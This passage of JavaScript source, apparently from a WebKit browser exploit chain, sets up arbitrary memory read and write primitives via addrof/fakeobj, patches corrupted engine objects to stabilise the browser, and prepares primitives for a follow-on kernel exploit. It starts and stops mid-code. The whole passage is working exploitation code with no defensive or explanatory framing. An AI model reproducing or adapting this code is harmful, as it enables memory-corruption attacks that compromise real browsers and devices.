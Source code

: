             };    
            window.read_ptr_at = function (p) {
                var ans = 0;
                var d = read_mem(p, 8);
                for (var i = 7; i >= 0; i--)
                    ans = 256 * ans + d[i];
                return ans;
            };    
            window.write_ptr_at = function (p, d) {
                var arr = [];
                for (var i = 0; i < 8; i++) {
                    arr.push(d & 0xff);
                    d /= 256;
                }
                write_mem(p, arr);
            };    
            (function () {
                var magic = boot_fakeobj(boot_addrof(obj) + 16);
                magic[4] = addrof_slave;
                magic[5] = (addrof_slave - addrof_slave % 0x100000000) / 0x100000000;
                obj.buffer = obj_master;
                magic[4] = addrof_obj_slave;
                magic[5] = (addrof_obj_slave - addrof_obj_slave % 0x100000000) / 0x100000000;
                magic = null;
            })();    
            //fix fucked objects to stabilize webkit    
            (function () {
                //fix fontfaceset (memmoved 96 bytes to low, move back)
                var ffs_addr = read_ptr_at(addrof(post_ffs) + 8) - 208;
                write_mem(ffs_addr, read_mem(ffs_addr - 96, 208));
                //fix strings (restore "valid") header
                for (var i = 0; i < needfix.length; i++) {
                    var addr = read_ptr_at(addrof(needfix[i]) + 8);
                    write_ptr_at(addr, (HASHMAP_BUCKET - 20) * 0x100000000 + 1);
                    write_ptr_at(addr + 8, addr + 20);
                    write_ptr_at(addr + 16, 0x80000014);
                }
                //fix array butterfly
                write_ptr_at(butterfly + 248, 0x1f0000001f);
            })();    
            //^ @sleirs' stuff. anything pre arb rw is magic, I'm happy I don't have to deal with that.    
            //create compat stuff for kexploit.js
            var expl_master = new Uint32Array(8);
            var expl_slave = new Uint32Array(2);
            var addrof_expl_slave = addrof(expl_slave);
            var m = fakeobj(addrof(obj) + 16);
            obj.buffer = expl_slave;
            m[7] = 1;
            obj.buffer = expl_master;
            m[4] = addrof_expl_slave;
            m[5] = (addrof_expl_slave - addrof_expl_slave % 0x100000000) / 0x100000000;
            m[7] = 1;    
            var prim = {
                write8: function (addr, value) {
                    expl_master[4] = addr.low;
                    expl_master[5] = addr.hi;
                    if (value instanceof int64) {
                        expl_slave[0] = value.low;
                        expl_slave[1] = value.hi;
                    } else {
                        expl_slave[0] = value;
                        expl_slave[1] = 0;
                    }
                },